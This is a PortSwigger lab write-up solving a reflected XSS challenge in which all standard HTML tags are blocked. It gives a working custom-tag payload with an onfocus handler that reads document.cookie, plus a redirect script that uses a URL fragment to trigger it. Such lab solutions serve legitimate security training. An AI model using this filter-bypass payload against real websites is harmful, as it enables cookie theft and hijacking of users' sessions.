

# Reflected XSS into HTML context with all tags blocked except custom ones

## Description

Link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

>

## Writeup

The value of the `search` parameter is reflected in the response. So, let's test whether the input is not properly sanitized/escapade.

All tags are blacklisted except the custom ones. We can try to inject our own tag and trigger the payload on the `onfocus` event. 

The custom tag and attributes are: `<exploit id=x onfocus=alert(document.cookie); tabindex=1>`.


The content of the file visited by the user to trigger our XSS is:
``` javascript
<script>
location = "https://acca1f861ec66b0381e0022700040079.web-security-academy.net/?search=<exploit+id%3dx+onfocus%3dalert(document.cookie);+tabindex%3d1>#x";
</script>
```

The user will be redirected to the vulnerable page and the `#x` will  make the page focus on our custom tag, triggering the alert pop-up.


